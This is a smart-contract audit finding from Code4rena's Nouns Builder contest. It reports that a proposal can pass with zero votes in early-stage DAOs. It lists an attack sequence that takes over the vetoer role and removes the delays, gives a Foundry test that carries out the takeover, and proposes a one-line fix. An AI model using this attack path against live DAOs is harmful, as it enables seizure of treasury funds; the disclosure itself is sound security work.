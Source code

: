 ## Tags

- bug
- 2 (Med Risk)
- sponsor confirmed

# [A proposal can pass with 0 votes in favor at early DAO stages](https://github.com/code-423n4/2022-09-nouns-builder-findings/issues/436) 

# Lines of code

https://github.com/code-423n4/2022-09-nouns-builder/blob/main/src/governance/governor/Governor.sol#L441


# Vulnerability details

It's possible to create a proposal for a DAO as soon as it's deployed and the proposal can pass even if nobody votes.

This possibility of doing so is based on the following assumptions:
1. The vetoer doesn't veto the proposal
2. `proposal.quorumVotes` is 0, which happens when `token.totalSupply() * settings.quorumThresholdBps < 10_000`
3. `proposal.proposalThreshold` is 0, which happens when `token.totalSupply() * settings.proposalThresholdBps < 10_000`

The amount of time necessary to create and execute a proposal of this kind is dictated by `governor.settings.votingDelay + governor.settings.votingDelay + treasury.delay()`, the lower the time the higher the risk.

## Impact
A malicious actor could build an off-chain script that tracks `DAODeployed` events on the `Manager.sol` contract. Every time a new DAO is spawned the script submits a proposal. This attack is based on the fact that such at an early stage nobody might notice and the chances of this happening are made real because every new DAO can be targeted.


A potential proposal created by an attacker might look like this:
1. Call `governor.updateVetoer(attacker)`
1. Call `governor.updateVotingDelay(0)`
2. Call `governor.updateVotingPeriod(0)`
3. Call `treasury.updateGracePeriod(0)`
4. Call `treasury.updateDelay(1 day)`

With this setup the attacker can make a proposal and queue it immediately to then execute it after 1 day time; which gives him the time to veto any proposal that tries to interfere with the attack. At this point the attacker has sudo powers and if there's any bid he can take the funds.

This is just one possible attack path, but the point is making a proposal pass can give an attacker sudo powers and nobody might notice for a while.

## Proof of Concept
Here's a test I wrote that proves the attack path outlined above, you can copy it into `Gov.t.sol` and execute it with `forge test -m test_sneakProposalAttack`:

```javascript
 function test_sneakProposalAttack() public {
        address attacker = vm.addr(0x55);

        address[] memory targets = new address[](5);
        uint256[] memory values = new uint256[](5);
        bytes[] memory calldatas = new bytes[](5);

        // 1. Call `governor.updateVetoer(attacker)`
        targets[0] = address(governor);
        values[0] = 0;
        calldatas[0] = abi.encodeWithSignature("updateVetoer(address)", attacker);

        // 2. Call `governor.updateVotingDelay(0)`
        targets[1] = address(governor);
        values[1] = 0;
        calldatas[1] = abi.encodeWithSignature("updateVotingDelay(uint256)", 0);

        //3. Call `governor.updateVotingPeriod(0)`
        targets[2] = address(governor);
        values[2] = 0;
        calldatas[2] = abi.encodeWithSignature("updateVotingPeriod(uint256)", 0);

        //3. Call `treasury.updateGracePeriod(0)`
        targets[3] = address(treasury);
        values[3] = 0;
        calldatas[3] = abi.encodeWithSignature("updateGracePeriod(uint256)", 0);

        //4. Call `treasury.updateDelay(1 day)`
        targets[4] = address(treasury);
        values[4] = 0;
        calldatas[4] = abi.encodeWithSignature("updateDelay(uint256)", 60 * 60 * 24);

        //Attacker creates proposal as soon as contract is deployed
        bytes32 proposalId = governor.propose(targets, values, calldatas, "");

        //Wait for proposal.voteEnd
        vm.warp((governor.getProposal(proposalId).voteEnd));

        //Queue it
        governor.queue(proposalId);

        //Wait for treasury delay
        vm.warp(block.timestamp + treasury.delay());

        //Execute proposal
        governor.execute(targets, values, calldatas, keccak256(bytes("")));

        //Shows it's now possible for an attacker to queue a proposal immediately
        bytes32 proposalId2 = governor.propose(targets, values, calldatas, "mock");
        governor.queue(proposalId2);

        //And executed it after one day
        vm.warp(block.timestamp + 60 * 60 * 24);
        governor.execute(targets, values, calldatas, keccak256(bytes("mock")));
    }

```

## Recommended Mitigation Steps
This potential attack path comes from a combination of factors, maninly:
1. A proposal can be created directly after deployment
2. The `proposal.proposal.proposalThreshold` and `proposal.quorumVotes` are set to 0 at such early stages
3. A proposal with 0 votes is allowed to pass

I would say that requiring at least 1 vote for a proposal to be considered `Succeeded` is rational and should mitigate this problem because that would require the attacker to bid on auction to get 1 voting power, increasing the cost and the time necessary for the attack.

At [Governor.sol#L441](https://github.com/code-423n4/2022-09-nouns-builder/blob/main/src/governance/governor/Governor.sol#L441) we have:

```javscript
else if (proposal.forVotes < proposal.againstVotes || proposal.forVotes < proposal.quorumVotes) {
        return ProposalState.Defeated;
}
```
which can be changed to:
```javscript
else if (proposal.forVotes == 0 || proposal.forVotes < proposal.againstVotes || proposal.forVotes < proposal.quorumVotes) {
        return ProposalState.Defeated;
}
```
